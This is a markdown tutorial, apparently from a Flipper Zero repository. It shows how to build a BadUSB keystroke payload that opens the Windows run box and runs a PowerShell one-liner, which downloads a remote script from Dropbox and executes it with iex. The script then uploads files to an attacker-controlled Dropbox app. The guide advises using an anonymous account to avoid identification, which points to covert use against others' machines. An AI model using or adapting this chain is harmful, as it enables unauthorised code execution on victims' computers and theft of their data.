 # Dropbox Configuration for BadUSB 

This tutorial will explain how to create a BadUSB payload that will run a remote script stored on the Web, which is capable of uploading files to a remote location. Both the _download_ of the script and the _file upload_ parts will use Dropbox. 

**NOTE**: be aware that if your payloads/scripts are compromised, it might be possible to identify the original Dropbox account. So we recommend using an anonymous or disposable Dropbox account to operate everything.

## Create a Dropbox Application

First we will create a personal Dropbox application that will have permissions onlly to _upload_ files to a _specific folder_.

The stricter permission settings is recommended, because it will limit the access in case of the keys/tokens/secrets are, somehow, compromised/leaked. For instance, if the key had access to _read_ and to _any_ folder of the account, one could download all the files in the Dropbox account that you will be using.

To create an application like that, do the following:
 1. Go to the [Dropbox New App Creation](https://www.dropbox.com/developers/apps/create/) page. Fill the information as following:
   - API: Scoped access
   - Access Type: App folder (
   - Name: <any> (it should be exclusive)
 2. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 3. Go to the "Permissions" tab of your app.
 4. Mark these two permissions:
   - `files.metadata.write`
   - `files.content.write`
 5. Click on the "Submit" button to update the app's permissions.

## Setup the Key of the Dropbox Application

 1. Go to the [My apps](https://www.dropbox.com/developers/apps/) page and enter in your recently created application page.
 2. Go to the "Settings" tab of your app.
 3. Copy and write down your "App key" (`<APP_KEY>`) and "App secret" (`APP_SECRET`).
 4. Open a web browser and log into your Dropbox account (if it is not already).
 5. Create an URL with your "App key" and open it in your browser:
```
https://www.dropbox.com/oauth2/authorize?client_id=<APP_KEY>&token_access_type=offline&response_type=code
```
 6. Click on `Continue` to indicate that you are aware that you are connecting to a development application.
 7. Click on `Allow` to allow that the application have the mentioned permissions.
 8. Copy and write down the "Authorization code" (`<AUTHORIZATION_CODE>`) shown in the box.
 9. Make a HTTP request to retrieve a refresh token: 
```
curl https://api.dropbox.com/oauth2/token \
    -d code=<AUTHORIZATION_CODE> \
    -d grant_type=authorization_code \     
    -u <APP_KEY>:<APP_SECRET>
```
 10. Copy and write down write down the "Refresh token" (`<REFRESH_TOKEN>`) from the `"refresh_token"` key of the JSON response.

## Prepare the PowerShell script

The `.ps1` file is the PowerShell script that you want to run. It will create a local file, then upload it to Dropbox. To configure it do the following:

 1. Edit your `.ps1` file to specify the secrets you have copied and written from the previous step:
```
$MyAppKey       = "<APP_KEY>"
$MyAppSecret    = "<APP_SECRET>"
$MyRefreshToken = "<REFRESH_TOKEN>"
```
 2. Upload the `.ps1` file to Dropbox (it can be stored in any folder, not necessarily inside the app's folder).
 3. Locate the file on the Dropbox web interface, right click on it, and click on the "Copy link" option.
 4. Copy and write down the URL, replacing the `?dl=0` in the end to `?dl=1` if necessary. Let's call it `<SCRIPT_DOWNLOAD_URL>`. For example:
```
https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1
```

## Prepare the BadUSB payload

The `.txt` file is the BadUSB payload that will actually send the keystrokes. It will call the Windows run box and execute the remote PowerShell script. You have to specify the download URL of the PowerShell script inside the payload. Do the following:

 1. Edit your `.txt` file to put the download URL (`<SCRIPT_DOWNLOAD_URL>`):
```
ALTSTRING cmd /c powershell iex ((New-Object System.Net.WebClient).DownloadString('https://www.dropbox.com/s/xxxxxxxxxxxx/my-file.ps1?dl=1'))
```
 2. Put the `.txt` file inside the `badusb` folder of the Flipper's SD Card.

## Reference
 - https://www.dropbox.com/developers/documentation/http/documentation
 - https://developers.dropbox.com/oauth-guide

